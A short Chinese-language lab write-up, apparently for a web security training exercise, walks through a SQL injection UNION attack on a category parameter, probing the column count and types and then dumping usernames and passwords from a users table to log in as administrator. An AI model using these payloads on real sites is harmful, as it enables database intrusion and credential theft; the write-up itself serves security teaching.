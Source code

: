 # 题意
![](pic/4-1.png)
结合上两次实验的操作实现UNION attack，获取administrator的密码并登录即为成功。注意，题中已经给出了表名users和列名username和password。
# 解题思路
按照上两次实验的步骤，先确定列数再确定数据类型（其实题中已经给出了列数为2并且两列都是string类）。

1.确定列数：
将category的值设为 '+UNIOM+SELECT+NULL--  并增加NULL数量。可以测出列数目为2。


2.确定数据类型：将category的值设为 '+UNION+SELECt+'ab','cd'--可以测出两列都是string类。

3.实施注入：将category的值设为
```
'+UNION+SELECT+username,+password+FROM+users--
```

即可获得如下信息：

![](pic/pswd.png)


按照administrator的密码登录即可。
# 知识点